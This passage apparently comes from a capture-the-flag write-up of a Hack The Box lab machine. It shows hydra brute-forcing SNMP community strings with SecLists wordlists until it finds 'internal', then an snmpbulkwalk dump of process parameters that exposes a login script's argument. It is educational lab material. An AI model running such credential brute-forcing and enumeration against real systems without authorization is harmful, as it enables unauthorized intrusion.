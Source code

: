 [Simple Network Management Protocol (SNMP)](https://en.wikipedia.org/wiki/Simple_Network_Management_Protocol) was open. I tried scanning it with multiple tools. But I did not find anything of interest.

I used hydra to scan for other community strings. But it kept on finding only 'public'.

```bash
$ hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.htb snmp
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-25 19:48:34
[DATA] max 16 tasks per 1 server, overall 16 tasks, 118 login tries (l:1/p:118), ~8 tries per task
[DATA] attacking snmp://target.htb:161/
[161][snmp] host: target.htb   password: public
[STATUS] attack finished for target.htb (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-25 19:48:34
```

Eventually, I realized that it was ending too quickly. I was not giving it the `-f` parameter, so I did not think it was supposed to stop after it found the first match, but it did.

I moved 'public at the end of my wordlist and tried again with SNMP versions 1 and 2.

```bash
$ hydra -P /usr/share/seclists/Discovery/SNMP/snmp.txt target.htb snmp -m '2'
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-26 11:11:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3217 login tries (l:1/p:3217), ~202 tries per task
[DATA] attacking snmp://target.htb:161/2
[STATUS] 128.00 tries/min, 128 tries in 00:01h, 3089 to do in 00:25h, 16 active
[STATUS] 122.67 tries/min, 368 tries in 00:03h, 2849 to do in 00:24h, 16 active
[STATUS] 121.00 tries/min, 847 tries in 00:07h, 2370 to do in 00:20h, 16 active
        [161][snmp] host: target.htb   password: internal
[STATUS] attack finished for target.htb (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-26 11:23:28
```

It found 'internal'. I scanned this.

```bash

$ snmpbulkwalk -v 2c -c internal target . > snmp.txt

...

HOST-RESOURCES-MIB::hrSWRunParameters.1991 = STRING: "-proto tcp -host-ip 172.22.0.1 -host-port 81 -container-ip 172.22.0.2 -container-port 80"
HOST-RESOURCES-MIB::hrSWRunParameters.2006 = STRING: "-namespace moby -id 42602c871adeb563d57151cd342480f8a7f3cd30928eef2b1bee26105a2cec4f -address /run/containerd/containerd.sock"
HOST-RESOURCES-MIB::hrSWRunParameters.2026 = STRING: "main.py"
HOST-RESOURCES-MIB::hrSWRunParameters.2044 = STRING: "-c from multiprocessing.semaphore_tracker import main;main(4)"
HOST-RESOURCES-MIB::hrSWRunParameters.2045 = STRING: "-c from multiprocessing.spawn import spawn_main; spawn_main(tracker_fd=5, pipe_handle=7) --multiprocessing-fork"
HOST-RESOURCES-MIB::hrSWRunParameters.2085 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.2087 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.2112 = STRING: "/usr/local/bin/login.py REDACTED"
HOST-RESOURCES-MIB::hrSWRunParameters.2279 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.2347 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.2348 = ""
```